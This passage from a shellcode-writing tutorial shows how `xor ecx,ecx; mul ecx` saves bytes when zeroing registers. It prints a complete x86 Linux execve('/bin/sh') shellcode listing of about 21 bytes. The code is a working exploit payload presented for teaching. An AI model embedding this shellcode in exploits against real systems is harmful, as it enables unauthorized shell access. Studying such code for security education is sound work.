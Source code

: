 Now we are at 23 bytes! Wow, but believe it or not, we can still do 2
bytes better.

Zeroing Out Better
------------------

The last place to gain an advantage, and it is a small one is in the
process of zeroing bytes. There are a number of instructions that are
designed to deal with 8-byte arithmetic by using multiple registers to
store the results of values that overflow 4-byte numbers. The
instruction we will concern ourselves with is the `mul` instruction.

The `mul` instruction has the following form:

``` {.example}
   mul reg
```

It will:

-   Multiple the value in `reg` with the value currently in `eax`
-   The result will be stored with the lower 4-bytes in `eax` and the
    upper 4-bytes in `edx`

What does this imply? Well, if we multiple where the value in the
registers is zero, then `eax` will be zero AND `edx` will be zero. The
`mul` instruction is just two bytes, and using that two bytes, we can do
two zero'ing, saving us two bytes overall.

Here's the resulting shell code:

``` {.asm}
;; smallest_shell.asm
SECTION .text           ; Code section
             global _start  ; Make label available to linker
_start:
    xor ecx,ecx
    mul ecx         ;0's edx and and eax
    push eax        ;\0
    push 0x68732f6e     ;n/sh
    push 0x69622f2f     ;//bi 


    mov ebx,esp         ; Param #1 - "/bin/sh" is *esp
    mov al,0xb          ; System call number for execve
    int 0x80        ; Interrupt 80 hex - invoke system call
```

If you look at the two instructions at the top:

``` {.asm}
    xor ecx,ecx
    mul ecx 
```

First, by zeroing out `ecx`, and then doing `mul ecx`, we multiple the
value in `eax` by zero and store zero in both `eax` and `edx`.
